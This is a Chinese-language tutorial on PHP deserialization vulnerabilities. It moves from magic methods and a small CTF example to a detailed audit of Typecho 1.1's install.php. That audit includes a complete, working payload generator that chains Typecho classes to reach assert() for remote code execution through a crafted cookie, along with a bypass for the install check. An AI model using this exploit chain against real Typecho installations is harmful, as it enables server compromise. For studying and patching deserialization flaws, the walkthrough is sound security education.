# 0x00 简介

PHP反序列化漏洞，在我们使用`unserialize()`进行反序列化的时候，如果反序列化对象中存在一些我们可以利用的魔法函数且传入的变量可控，那么这个过程就可能触发这个魔法函数，来执行我们想要的过程。

# 0x01 初识反序列化

反序列化我们需要了解php的类和魔术方法，这里举个简单的例子用到的魔术方法是`__destruct` 销毁一个类之前执行执行析构方法。



当对象创建后输出我们的`$a`变量的值。那么我们把它的值改变后用`serialize()`看看



`O:4:"test":1:{s:1:"a";s:5:"12345";}` 是我们序列化的值，然后`unserialize($_GET['id']);`传入我们改变的值 `O:4:"test":1:{s:1:"a";s:3:"404";}` 成功打印了我们的改变的值，因为反序列化我们可以控制类属性且这个过程会触发这些能够触发的魔术方法。

这里网上可以找到一些魔术方法,当然还有些可以绕过具体大家搜索一下我这里就不细写了，具体情况具体分析，反序列化难一点的还是需要很大的耐心才能完成。

```
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当脚本尝试将对象调用为函数时触发

```


# 0x02 简单的一道题

下面我改了写一道简单的CTF，看看怎么利用它。

```
<?php

class foo1{
    public $varr;
    function __destruct(){
        $this->varr->evaltest();
    }
}

class foo2{
    public $str;
    function evaltest(){
        eval($this->str);
    }
}
?>

```
我们看到在foo2中`evaltest()`函数中存在eval，而foo1中调用了函数`evaltest()`，我们就想可不可以让foo1调用foo2中的`evaltest()`函数顺边还把它的`$str`中的值改写了。

```
<?php
class foo1{
    public $varr;
    function __construct(){
        $this->varr = new foo2();
    }
}

class foo2{
    public $str;
    function __construct(){
        $this->str = 'phpinfo();';
  }
}

$obj = new foo1();
echo serialize($obj); 
?>
```
我们把`$varr`变量赋值为`new foo2()` 然后它再去调用 `evaltest()`函数 然后我们把`$str`的值换成 我们想执行的命令。




# 0x03 实例审计

找了半天源码我觉得最有意义的，审计的最多的一次反序列化当属Typecho1.1版本的漏洞了。可能看起来有点吃力我尽量分析的详细一点。

来到文件 `install.php`



我们看到要绕过`install.php`这个程序的`exit` 我们只需要传入的`finish`值不为空且`referer`为本站的值就能绕过。

我们来到核心部分



这里调用`Typecho_Cookie`类的`get`方法 ，我这里就不跟进去了，就是获取cookies的`__typecho_config` 字段值，然后`base64_decode()`在进行反序例化赋值给变量`$config`,然后我们全局搜索下魔术方法`__destruct`之类的发现没有可以利用的点.



然后我们跟进这个`Typecho_Db`类看看，他传入了`$config['adapter']` 和 `$config['prefix']`。

var\Typecho\Db.php



这里使用`.`连接`$adapterName`为一个类的话那么会触发`__toString()`这个魔术方法。



然后全局搜索`__toString()`,来看看那里可以利，找到`\var\Typecho\Feed.php`。



如果`$item['author']`是一个类且`screenName`是一个私有或者未定义的属性那么就会自动触发`__get()`



那么我们就搜索看看那里有可以利用的`__get()`

在var\Typecho\Request.php 有这么一处



我把跟进的代码都放在了一块，其中__get 调用了 `get()`函数，然后它又调用了`_applyFilter()`函数，其中还有可以造成命令执行的回调函数`call_user_func()`和`array_map()` 其中参数还可以控制，那么我的攻击链也算找完了，下面来梳理一下


攻击链：

```
install.php
        |
绕过程序退出来到unserialize()
        |
db.php中__construct() 触发__toString()
        |
Feed.php中__toString触发__get()
        |
request.php中__get()调用get()->_applyFilter()->回调函数

```


下面来构造exp，为了方便理解我们可以从尾到头来写

首先我们需要`_applyFilter`中的`$filter`的值为一个命令函数这里一般选择`assert()`,然后要让`get()`中的`$value`就是我们传入的命令也就是`_params['screenName']`，所以可以构造如下。

```
class Typecho_Request
{
    private $_params = array('screenName' =>'eval(\'phpinfo();exit();\')');
    private $_filter = array('assert');
    
}

```
`request.php`构造完了再构造`Feed.php`中需要的值,这里我们要进入`$item['author']->screenName`这个前面有个`self::RSS2 == $this->_type`语句 RSS2= RSS 2.0所以赋值对应的，这里的调用跟我前面写的那个CTF类似。

```
class  Typecho_Feed
{   
    private $_type = 'RSS 2.0';
    private $_items ;   
    
    public function __construct (){
        $this->_items[] = array('author' => new Typecho_Request());
    }
}

```
最后回到`install.php中` 看到`$db = new Typecho_Db($config['adapter'], $config['prefix']);` 触发`db.php`中的`__construct()`需要传入2个值，但是有个是默认的所以我们传入一个我们序列化的上面的值就可以了。


payload :

```
<?php

class Typecho_Request
{
    private $_params = array('screenName' =>'eval(\'phpinfo();exit();\')');
    private $_filter = array('assert');
    
}

class  Typecho_Feed
{   
    private $_type = 'RSS 2.0';
    private $_items ;   
    
    public function __construct (){
        $this->_items[] = array('author' => new Typecho_Request());
    }
}

$payload = array('adapter'=>new Typecho_Feed());
echo base64_encode(serialize($payload));
?>

```

为什么这里payload `phpinfo();exit();`中有`exit()` ,因为程序开始使用了`ob_start()` 这个函数会把输出放进缓冲区，触发异常后`ob_end_clean()` 会清空缓冲区，导致没有回显。所以可以找到个函数来跳出或者执行后我们报错跳出又或者直接不要回显写入一句话。




这类反序列化一般寻找起来还是很有难度的，个人感觉两头向中间来找方便一些，找到可以利用的入口，再到可以利用的函数，再从入口点想办法到利用点。


# 0x04 文末

反序列化的地方还可以搭配注入 比如espcms的search.php注入。